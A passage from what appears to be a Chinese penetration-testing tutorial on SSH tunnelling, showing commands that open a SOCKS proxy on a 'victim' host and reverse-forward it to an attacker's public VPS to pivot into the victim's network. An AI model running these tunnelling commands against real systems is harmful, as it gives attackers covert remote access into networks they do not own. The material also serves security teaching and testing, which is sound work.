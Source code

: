 重启 ssh 服务

```bash
systemctl restart sshd.service
```

[![](assets/1708095858-42480ea0c98d8ec90aaf381c7ae3f1b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203601-e57869f2-e8e5-1.png)

2、客户端（受害者），通过 ssh 开启本地代理 135 端口（端口任意），然后输入本地 ssh 密码，进行监听

```bash
ssh -qTfnN -D 0.0.0.0:135 funsiooo@localhost
```

[![](assets/1708095858-048a2c2af4069f64d451e4611cc83515.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203609-ea14db1c-e8e5-1.png)

[![](assets/1708095858-2ba1986d63b30319c8245aab968428bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203619-f042c0e4-e8e5-1.png)

利用 ssh 远程转发到公网的服务端（VPS）的 2222 端口，此时输入的密码是服务端（VPS）的 ssh 密码

```bash
ssh -qTfnN -R 0.0.0.0:2222:0.0.0.0:135 root@公网 vps
```

[![](assets/1708095858-8ba3e1d78c4cef132cff88efb982651c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203627-f52ac818-e8e5-1.png)
